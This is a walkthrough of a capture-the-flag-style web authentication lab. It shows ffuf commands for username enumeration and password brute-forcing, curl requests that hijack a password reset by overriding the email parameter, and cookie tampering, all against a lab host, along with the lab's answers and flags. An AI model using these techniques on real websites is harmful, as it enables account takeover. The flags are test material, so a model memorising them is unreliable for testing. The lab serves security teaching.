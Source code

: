 # Brief

Will learn about different ways website authentication methods can be:

- Bypassed
- Defeated
- Broken

These vulnerabilities can be some of the most critical as it often ends in leaks of customers personal data.

<h2></h2>

# Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames.

Website error messages are great resources for collating this information to build our list of valid usernames.

We can download fuff on "https://github.com/ffuf/ffuf"/

<h2></h2>

Question 1: What is the username starting with si*** ?

- Navigate to the site that question asked with your VM: "http://10.10.163.26/customers/signup".
  - Entering "admin" as a username and fake information in other form fields triggers an error message: "An account with this username already exists."
  - This error message indicates the existence of valid usernames already registered in the system.
  - To identify these valid usernames, the ffuf tool is used, which checks against a list of commonly used usernames for potential matches.
 
<p align="center">
<br/>
<img src="https://i.imgur.com/OgtJGBk.png" height="90%" width="90%" alt=""/>
<br />

- `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.163.26/customers/signup -mr "username already exists"`
  - -w argument: selects the file's location on the computer that contains the list of usernames that we're going to check exists.
  - -X argument: specifies the request method, this will be a GET request by default, but it is a POST request in our example.
  - -d argument: specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword
  - We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request.
  - -H argument is used for adding additional headers to the request.
  - We're setting the Content-Type to the webserver knows we are sending form data.
  - -u argument specifies the URL we are making the request to.
  - -mr argument is the text on the page we are looking for to validate we've found a valid username.
 
<p align="center">
<br/>
<img src="https://i.imgur.com/UJ9V1Gs.png" height="90%" width="90%" alt=""/>
<br />

Answer: `simon`

Question 2: What is the username starting with st*** ?

Answer: `steve`

Question 3: What is the username starting with ro*** ?

Answer: `robert`


<h2></h2>

# Brute Force

- Brute force attack: An automated process.
- Commonly used passwords: Tested against usernames.
- Target: Single username or a list of usernames.

<h2></h2>

Question: What is the valid username and password (format: username/password)?

- Create a txt file name "valid_usernames.txt" that contents the usernames.
  - On Terminal, use the `vi` command:
    - `vi valid_usernames.txt`.
      - press `i` to insert words. And type in "simon steve robert" on seperate lines.
      - press `esc` and type in `:wq` to save.

<p align="center">
<br/>
<img src="https://i.imgur.com/4DEFXmm.png" height="90%" width="90%" alt=""/>
<br />

- Make sure you are in the same directory as the valid_usernames.txt
  - On Terminal use the ffuf command to attempt a brute force attack on the login page.
 
<p align="center">
<br/>
<img src="https://i.imgur.com/UBkrHYX.png" height="90%" width="90%" alt=""/>
<br />

- `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.163.26/customers/login -fc 200`
  - Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted.
  - But because we're using multiple wordlists, we have to specify our own FUZZ keyword.
  - In this instance, we've chosen W1 for our list of valid usernames.
  - W2 for the list of passwords we will try.
  - The multiple wordlists are again specified with the -w argument but separated with a comma.
  - For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.
 
<p align="center">
<br/>
<img src="https://i.imgur.com/nO2qKW2.png" height="90%" width="90%" alt=""/>
<br />

Answer: `steve/thunder`


<h2></h2>

# Logic Flaw

<h3>What is a Logic Flaw?</h3>

- Authentication processes may have logic flaws.
- Logic flaws involve hackers bypassing, circumventing, or manipulating the typical logical path of an application.
- Logic flaws can be present in various parts of a website, but we're focusing on authentication examples.

<p align="center">
<br/>
<img src="https://i.imgur.com/WVSgIrU.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

<h3>Logic Flaw Example</h3>

- Path checks: The code examines if the path the client is visiting starts with "/admin."
- Admin verification: If the path starts with "/admin," additional checks are performed to confirm the client's admin status.
- Access control: If the path doesn't begin with "/admin," the page is displayed to the client without additional admin checks.

<p align="center">
<br/>
<img src="https://i.imgur.com/yWL6SGy.png" height="90%" width="90%" alt=""/>
<br />

- The PHP code example uses "===" to ensure an exact match, including letter casing.
- There is a logic flaw in the code where unauthenticated users can bypass authentication checks.
- Unauthenticated users requesting "/adMin" can access the page without privilege checks.

<h2></h2>

<h3>Logic Flaw Practical</h3>

- We're going to examine the Reset Password function of the Acme IT Support website (http://10.10.163.26/customers/reset).
  - We see a form asking for the email address associated with the account on which we wish to perform the password reset.
  - If an invalid email is entered, you'll receive the error message "Account not found from supplied email address".

<p align="center">
<br/>
<img src="https://i.imgur.com/OPlJaMi.png" height="90%" width="90%" alt=""/>
<br />

- Email address "robert@acmeitsupport.thm" is accepted for demonstration.
  - The next stage of the form requires entering the associated username.
  - Entering "robert" as the username and clicking "Check Username" triggers a password reset email confirmation.
 
<p align="center">
<br/>
<img src="https://i.imgur.com/zG3zlcr.png" height="90%" width="90%" alt=""/>
<br />

You may be wondering what the vulnerability could be in this application:
  
  - you have to know both the email and username
  - Then the password link is sent to the email address of the account owner.

This will require: running two `Curl Requests`

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.

<h2></h2>

<h3>Curl Request 1:</h3>

`curl 'http://10.10.163.26/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`

- Use the -H flag to add an additional header to the request.
- Set Content-Type to application/x-www-form-urlencoded to inform the web server about the data type being sent.
- Retrieve the user account from the query string in the application.
- Send the password reset email using data from the PHP variable $_REQUEST.
- The $_REQUEST variable in PHP contains data from both the query string and POST data.
- If the same key name is used in both query string and POST data, the application favors POST data.
- You can control where the password reset email is delivered by adding another parameter to the POST form.

<h2></h2>

<h3>Curl Request 2:</h3>

`curl 'http://10.10.163.26/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`

- Create an account on Acme IT support customer section.
- This account gives you a unique email address: {username}@customer.acmeitsupport.thm.
- Use this email address to create support tickets.
- Rerun Curl Request 2 with your @acmeitsupport.thm email to create a ticket on your account.
- The ticket contains a link to log in as "Robert."
- Using Robert's account, you can access support tickets and find a flag.

<h2></h2>

Question: What is the flag from Robert's support ticket?

- Create a new account on the Acme website.

<p align="center">
<br/>
<img src="https://i.imgur.com/kjqzMz3.png" height="90%" width="90%" alt=""/>
<br />

- On Terminal put in the first curl Request.
  - `curl 'http://10.10.163.26/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`
 
- On Terminal put in the second curl Request but with the email that you just created.
  - `curl 'http://10.10.163.26/customers/reset?email=robertmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=jeff@customer.acmeitsupport.thm'`

<p align="center">
<br/>
<img src="https://i.imgur.com/ZI0RwEB.png" height="90%" width="90%" alt=""/>
<br />

- Go on the Acme website with your account logged in. Go to the "Support Tickets" tab.
  - Click on the "Id" of the support Ticket.

<p align="center">
<br/>
<img src="https://i.imgur.com/YNHHBuu.png" height="90%" width="90%" alt=""/>
<br />

- Navigate to the link that is provided in the "Ticket Contenst":
  - `http://10.10.163.26/customers/reset/b88b163d2f6e45fb663725b71be276c8`

<p align="center">
<br/>
<img src="https://i.imgur.com/XwKpWxm.png" height="90%" width="90%" alt=""/>
<br />
 
- Logged into "Robert".

<p align="center">
<br/>
<img src="https://i.imgur.com/ZQOD4Ej.png" height="90%" width="90%" alt=""/>
<br />

- Navigate to the Support Tickets Contents to achieve the flag.

<p align="center">
<br/>
<img src="https://i.imgur.com/eKmYPpF.png" height="90%" width="90%" alt=""/>
<br />

Answer: `THM{AUTH_BYPASS_COMPLETE}`


<h2></h2>

# Cookie Tampering

<h3>Plain Text</h3>

The contents of some cookies can be in plain text, and it is obvious what they do.

For example, if these were the cookie set after a successful login:

- Set-Cookie: logged_in=true; Max-Age=3600; Path=/
- Set-Cookie: admin=false; Max-Age=3600; Path=/

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, another (admin), which controls whether the visitor has admin privileges.

Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

<h2></h2>

<h3>Curl Request 1:</h3>

`curl http://10.10.163.26/cookie-test`

First, we'll start just by requesting the target page:

<p align="center">
<br/>
<img src="https://i.imgur.com/jbjrt2e.png" height="90%" width="90%" alt=""/>
<br />

- Returned a message of: Not Logged In.

<h2></h2>

<h3>Curl Request 2:</h3>

`curl -H "Cookie: logged_in=true; admin=false" http://10.10.163.26/cookie-test`

Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:

<p align="center">
<br/>
<img src="https://i.imgur.com/iOodBY3.png" height="90%" width="90%" alt=""/>
<br />

- We are given the message: Logged In As A User.

<h2></h2>

<h3>Curl Request 3:</h3>

`curl -H "Cookie: logged_in=true; admin=true" http://10.10.163.26/cookie-test`

Finally, we'll send one last request setting both the logged_in and admin cookie to true:

<p align="center">
<br/>
<img src="https://i.imgur.com/u0575ea.png" height="90%" width="90%" alt=""/>
<br />

- Result: Logged In As An Admin.

<h2></h2>

<h3>Hashing</h3>

- Sometimes cookie values can look like a long string of random characters.
- Called hashes which are an irreversible representation of the original text.

<p align="center">
<br/>
<img src="https://i.imgur.com/bn5g8CW.png" height="90%" width="90%" alt=""/>
<br />

- Hash output varies with different hash methods. Hashes are irreversible.
- Consistent hash output aids in database lookups.
- Services like crackstation.net store hashes and original strings.

<h2></h2>

<h3>Encoding</h3>

- Encoding resembles hashing but is reversible, unlike hashing.
- The purpose of encoding is to convert binary data into human-readable text.
- Encoded data is easily and safely transmitted over mediums that support only plain text ASCII characters.

Common encoding types:
- base32 which converts binary data to the characters A-Z and 2-7
- base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.

For Example: 
`Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`

- This string base64 decoded has the value of {"id":1,"admin": false} we can then encode this back to base64 encoded again but instead setting the admin value to true, which now gives us admin access.

<h2></h2>

Question 1: What is the flag from changing the plain text cookie values?

<p align="center">
<br/>
<img src="https://i.imgur.com/cjfLP2m.png" height="90%" width="90%" alt=""/>
<br />

Answer: `THM{COOKIE_TAMPERING}`

Question 2: What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78?

- Navigate to https://crackstation.net/ and put in the hash value.

<p align="center">
<br/>
<img src="https://i.imgur.com/48OsiCB.png" height="90%" width="90%" alt=""/>
<br />

Answer: `463729`

Question 3: What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30=?

- Navigate to https://www.base64decode.org/ and put in the base64 decoded value.

<p align="center">
<br/>
<img src="https://i.imgur.com/owpZTr5.png" height="90%" width="90%" alt=""/>
<br />

Answer: `THM{BASE64_ENCODING}`

Question 4: Encode the following value using base64 {"id":1,"admin":true}

- Navigate to https://www.base64encode.org/ and put in the base64 encode value.

<p align="center">
<br/>
<img src="https://i.imgur.com/HTawd4U.png" height="90%" width="90%" alt=""/>
<br />

Answer: `eyJpZCI6MSwiYWRtaW4iOnRydWV9`
